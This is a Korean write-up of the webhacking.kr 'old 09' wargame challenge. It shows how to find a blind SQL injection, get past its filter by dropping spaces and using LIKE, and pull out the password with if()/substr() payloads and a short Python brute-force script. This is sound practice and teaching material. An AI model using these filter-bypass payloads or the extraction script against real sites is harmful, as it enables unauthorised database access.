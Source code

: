 ```yaml
---
title: "webhacking.kr old 09 문제 풀이"
date: 2025-04-04 00:00:00 +0800
categories: [Wargame, Webhacking.kr]
tags: [cyber security, writeup, webhackingkr, web hacking, blind sql injection] 
description: webhacking.kr old 09 문제 풀이
---
```


[https://webhacking.kr/challenge/web-09/](https://webhacking.kr/challenge/web-09/)
# 문제 풀이
## 분석
### 웹사이트
사이트에 접속하면 1, 2, 3 숫자들이 나열돼 있고 각 숫자들은 "?no={num}" 주소로 redirect되는 a 태그들이다.<br />
그리고 그 아래에는 Password를 입력하는 인풋 박스가 존재하는데 아마 특정 문자열을 입력했을 때 문제가 해결되는 구조임이 예상된다.<br />
#### ?no=1
"Apple"이라는 문구가 뜬다.
#### ?no=2
"Banana"라는 문구가 뜬다.
#### ?no=3
```
Secret

column : id,no  
no 3's id is password
```
3 페이지에 접속하면 "Secret"이라는 문구와 함께 column 정보와 no 값이 3인 데이터의 id가 비밀번호라고 친절하게 알려준다.<br />
## 최종 풀이
이렇게 우리는 어떻게든 no=3의 값을 읽어내야 한다.<br />
아마 아무리해도 바로 알아낼 수는 없을 것 같으니 Blind SQL Injection 문제인가 예상을 해본다.<br />
우선 SQLi가 가능한지 테스트용으로 `?no=' or 1=1 --`를 입력하니 "Access Denied" 문구가 뜬다. 이것을 보면 쿼리가 조작된 것을 서버가 알아냈다는 것이고 그렇다는 것은 필터링이 존재한다는 것이다.<br />
### 작동하는 쿼리
`if(length(id)=(5), 1, 1000)`<br />
처음에는 우선 `if()` 함수를 이용해서 id의 길이가 5("Apple")일 때 1을 반환하여 Apple이 출력되는지 체크해보았다. 하지만 여전히 "Access Denied"가 출력되며 막힌다.<br />

필터링에 걸릴만한 문자들은 여기서 '=' 인 것 같다. <br />
`if(length(id)like(5), 1, 1000)`  '=' 기호를 우회하는 대표적인 연산자인 `LIKE`를 사용해보아도 여전히 필터링에 걸린다.<br />

혹시 스페이스가 문제일까 `if(length(id)like(5),1,1000)`를 시도해보면 이제 "Apple"이 출력되면서 해당 SQL 코드가 작동한다는 걸 알 수 있다.<br />

해당 필터링을 뚫는 것이 이 문제의 핵심인 듯 하다. 본인은 운이 좋아서 긴 삽질없이 금방 찾을 수 있었다.<br />

역시나 `if(length(id)like(6), 2, 1000)`로 값을 조금 바꾸어서 시도하면 "Banana"가 출력된다.<br />
### no 3의 id 길이 알아내기
우리는 이제 이 방식을 이용하여 no 3의 id 길이를 알아낼 수 있다.<br />
`if(length(id)like(num), 3, 1000)` 함수의 성공 값을 3으로 변경하고 like() 내부에 있는 "num" 값을 1부터 하나씩 올려가보면 11에서 ?no=3 페이지가 출력된다.<br />
코드를 작성해서 자동화로 해결할 수도 있지만 작성하기 너무 귀찮은 나머지 손으로 시도해보니 생각보다 금방 나와서 다행이다.<br />
#### 다른 방법
```html
<input type="text" size="10" maxlength="11" name="pw">
```
나중에 알았는데 비밀번호를 입력받는 input box의 최대 길이가 11로 설정돼있었다.<br />
여기서 비밀번호의 길이가 11이라는 것의 힌트를 제공하고 있었지만 몰랐다.
### no 3의 id 알아내기
id를 알아내기 위한 기본적인 페이로드를 한 번 테스트 해보아야 한다.<br />
보통 이런식으로 Blind SQLI를 진행할 때에 주로 사용하는 함수는 `substr()`이다.<br />

```sql
if(substr(id,1,1)like(0x41),1,1000) # Apple 

if(substr(id,1,1)like(0x42),2,1000) # Banana
```
이런식으로 작성하여 no 파라미터 값에 보내보면 "Apple"이 출력된다. 참고로 substr() 함수는 16진수 값을 내보내기 때문에 'A'를 나타내는 0x41과 비교를 한다.<br />
참고로 MySQL에서 like 연산자는 대소문자 구분을 하지 않는다.
#### 익스플로잇
```python
import requests 
from string import ascii_lowercase

pw = ""
url = "https://webhacking.kr/challenge/web-09/?no="
for i in range(1, 12):
    for letter in ascii_lowercase:
        print(letter, i)
        query = f"if(substr(id,{i},1)like({hex(ord(letter))}),3,1000)"
        query_url = url + query

        resp = requests.get(query_url)
        if "Secret" in resp.text:
            pw += letter

print(pw)
```
이를 자동화하는 익스플로잇 코드를 짜보면 위와 같다.<br />

이를 실행하면 최종 비밀번호를 얻을 수 있고 비밀번호를 문제 페이지에서 입력해주면 문제가 풀린다.<br />
# 배운 것
MySQL의 substr(), like() 등의 함수, 연산자들에 대해서 더 자세히 배울 수 있는 기회가 됐다.